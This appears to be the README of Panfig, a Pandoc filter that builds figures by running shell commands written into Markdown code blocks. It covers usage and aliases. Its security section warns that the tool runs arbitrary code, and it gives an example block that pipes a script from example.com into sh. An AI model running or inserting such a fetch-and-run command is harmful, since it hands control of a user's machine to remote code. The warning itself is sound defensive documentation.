

Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files containing figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Makefile or something to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates HTML that looks like this:

> Here is a very simple FSM: the "on-off automaton."
>
> 

Security: for God's sake, be careful.
-------------------------------------

I am putting this up near the top because you should care.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**

    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~

How do I use it?
----------------

First things, of course, first: `pip install panfig`. (I don't actually have this on PyPI yet, so you'll have to download this and run `python setup.py` yourself.)

In general terms: where you want a figure, you write a code block that describes how to generate an image file. Then you compile the document with `pandoc --filter panfig ...`, and Panfig will generate the image and replace the code block with it.

More specifically: to make a figure, you use Pandoc/Markdown's fenced-code-block syntax to designate a code block as a Panfig block, by giving it the `.panfig` class, and also specifying a shell command that generates the image, like so:

    ~~~~~~~~ { .panfig shell="dot -Tpng -o {path}" }
      digraph G {
        on -> off;
        off -> on;
      }
    ~~~~~~~~

The `shell` attribute, as you see, is a shell command. The contents of the block are piped to its standard input. (The shell command is formatted so that `{path}` is replaced with the `sh`-escaped path to the image file that should be created.)

### Aliases

If you get tired of writing the same command over and over, you can use aliases to make things more concise. For example:

- Without aliases:

        ~~~~~~~~ { .panfig shell="(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}" }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~

- With aliases:

        ~~~~~~~~ { .panfig-aliases }
        {"mma": {"shell": "(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=mma }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~
